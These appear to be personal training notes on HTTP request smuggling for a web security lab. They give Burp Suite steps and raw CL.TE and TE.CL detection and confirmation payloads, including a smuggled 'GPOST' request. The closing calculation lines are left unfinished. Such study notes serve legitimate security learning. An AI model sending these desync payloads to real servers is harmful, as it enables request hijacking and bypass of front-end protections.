






____

https://www.youtube.com/watch?v=4S5fkKJ4SM4&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&ab_channel=JarnoTimmermans

HTTP /1
Change request method 

We have to receive HTTP /1 200 OK 

Extension: HTTP Request Smuggler -> Launch all scans

Repeater --> uncheck Update Content-Length 






# CL.TE
Detect

```
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

Confirm

```
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

send normal request

# TE.CL

Detect

```
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

Confirm

```
Content-Length: 3
Transfer-Encoding: chunked

1
G
0


```

send normal request

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0


```


56 --> 

CL1 ->  

CL2 -> 

5+1 = 6
